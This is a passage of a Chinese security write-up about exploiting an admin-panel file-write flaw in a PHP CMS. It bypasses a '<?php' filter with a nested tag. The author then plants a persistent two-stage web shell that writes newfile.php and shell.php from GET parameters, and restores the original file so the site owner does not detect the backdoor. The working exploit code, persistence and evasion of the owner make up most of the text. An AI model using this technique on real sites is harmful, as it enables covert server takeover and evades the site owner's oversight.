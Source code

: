 先来最简单的`<?php phpinfo();?>`  
![](https://shs3.b.qianxin.com/attack_forum/2022/01/attach-346dca95916f03876102f9c8606c1ea65a36051d.png)  
发现只剩下了一部分，`<?php`被过滤掉了,返回去看看，发现忽略了一行代码`$postAdJs = str_replace('<?php','',$postAdJs);`，对传入的数据进行了过滤。  
把`<?php`过滤掉，我就把代码改成`<?p<?phphp phpinfo();?>`  
这样即使被过滤了，剩下的`<?p`与`hp`拼成新的`<?php`，点击提交查看文件。  
![](https://shs3.b.qianxin.com/attack_forum/2022/01/attach-a0c8f0d0f8097abf3db558e2a24e9207666e3cae.png)  
访问这个文件，发现成功执行。  
![](https://shs3.b.qianxin.com/attack_forum/2022/01/attach-5804433c80798482d6517a94215531be60cfff3c.png)  
但是这样的话每一次执行代码，都需要重新提交。如果网站的主人登录了网站，发现了这个文件的异常，一定会修改密码，消除文件的。  
于是我就留了一个后门。  
先在网站后台提交代码

```php
<?p<?phphp 
$url = $_GET['url'];
$myfile = fopen("newfile.php", "w") or die("Unable to open file!");
fwrite($myfile, $url);
fclose($myfile);
?>
```

这样代码就会提交到那个暴露的PHP文件当中，然后添加一个参数url，在url中再次写入新的代码，新的代码会被存进新建的newfile.php中  
然后访问`AdminAdJs.php`，提交下面这个参数  
`?url=<?php $url = $_GET['url']; $myfile = fopen("shell.php", "w") or die("Unable to open file!"); fwrite($myfile, $url); fclose($myfile); ?>`  
这样就会在访问newfile.php时提交url参数，url就会写入shell.php  
也就是说在newfile.php提交命令，在shell.php执行命令，留下了一个后门  
再删除之前AdminAdJs.php的恶意代码，恢复原样，除非登录服务器挨个文件检查是不会被发现的。  
**最终效果**  
![](https://shs3.b.qianxin.com/attack_forum/2022/01/attach-0262529294862392f0e02aac1ee9904a91b30278.png)

总结
--

使用花椒CMS的网站存在多处漏洞，甚至后台提权。但是我只在黑盒测试中发现了存储xss漏洞，其他漏洞都是审计出来的。还有很多getshell的位置，但是与上文类似，我就不提了。  
所以代码审计是真的香啊。